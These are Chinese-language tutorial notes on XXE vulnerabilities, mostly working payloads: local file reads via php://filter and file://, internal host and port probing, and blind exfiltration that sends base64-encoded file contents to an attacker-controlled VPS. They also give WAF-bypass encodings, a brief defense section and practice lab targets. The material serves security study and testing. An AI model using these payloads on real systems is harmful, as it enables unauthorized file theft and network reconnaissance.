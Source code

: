 
###  一、xml簡介
一种存储和传输数据的标签语言。xml不适用预定义的标签，因此可以为标记指定描述数据的名称
文档结构：
	xml文档声明，在文档第一行
	xml文档类型定义
	xml文档元素
dtd文档类型定义：（漏洞产生在文档类型定义处，外部声明dtd处）
	![[Pasted image 20231221090308.png]]

### 二、xxe漏洞基础：
 ![[Pasted image 20231221090530.png]]
### 三、xxe漏洞利用：
#### 1、有回显利用：
##### 读取文件：
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<name>&aaa;</name>



<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<!ENTITY aaa SYSTEM "file:///C:/Windows/win.ini" >]>
```
	![[Pasted image 20231221091455.png]]
##### 内网探测：
bp爆破ip的d字段可以探测内网可用主机，bp爆破端口可以探测内网主机开启的端口
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">]>
<name>&xxe;</name>
```
	![[Pasted image 20231221091721.png]]

##### 引入外部实体dtd：
```XML
<!--payload-->
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117/eval.dtd">
%dtd;
]>
<name>&send;</name>

<!--eval.dtd-->
<!ENTITY send SYSTEM "file:///C:/windows/win.ini">

在192.168.43.117这台vps上的eval.dtd所在目录开启http服务
python -m http.server 80
```
	![[Pasted image 20231221092209.png]]
	![[Pasted image 20231221092252.png]]



#### 2、无回显利用：
##### 加载外部dtd
```xml
test.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/windows/win.ini"><!--读取文件存放到file中-->
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.43.117:8080/?abc=%file;'>"> %payload;<!--将文件作为参数发送请求到我们自己的vps中，最终的数据会存放到我们的访问日志中-->

payload
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117:8080/xxe/test.dtd">
%dtd;
%send;
]>
```
![[Pasted image 20231221101242.png]]
##### 加载外部xml

![[Pasted image 20231221101755.png]]





### 四、xxe漏洞探测
白盒：
simplexml_load_string()函数
黑盒：
1、看content-type类型：是否为application/xml
2、看数据提交格式：抓包看提交数据格式是否类似标签格式
3、contenttype和格式都不是，并且你确定有xxe，就可以改contenttype类型
![[Pasted image 20231221102131.png]]
### 五、xxe-绕过
#### 1、utf-7编码
```
UTF-7编码：

<?xml version= "1.0" encoding= "UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
#### 2、base64编码
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM

"data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
#### 3、空格绕过
通常XXE漏洞存在于XML文档的开头，有的WAF会检测XML文档中开头中的某些子字
符串或正则表达式，但是XML格式在设置标签属性的格式时允许使用任何数量的空格，
因此我们可以在<?xml?>或<!DOCTYPE>中插入数量足够多的空格去绕过WAF的检测。
```
<?xml                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    
version= "1.0" encoding= "utf-8"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://vps-ip/test.dtd">
%remote;
%dtd;
%xxe;
]>
```

### 六、防御
#### 1、使用开放语言禁用xxe
```php
libxml_disable_entity_loader(true);
```
#### 2、过滤
过滤<!DOCTYPE>, <!ENTITY>, SYSTEM，file://,http:// 等
### 七、练习
```
练习：
1. 无回显利用，pikachu
http://172.168.20.210:84/vul/xxe/xxe_1.php  
2. xxe探测：
黑盒：
    http://172.168.20.210:85/
    http://web.jarvisoj.com:9882/
白盒：
    http://172.168.20.210:8130/
拿shell:
    http://172.168.20.250/(xxe+Struts2漏洞)
```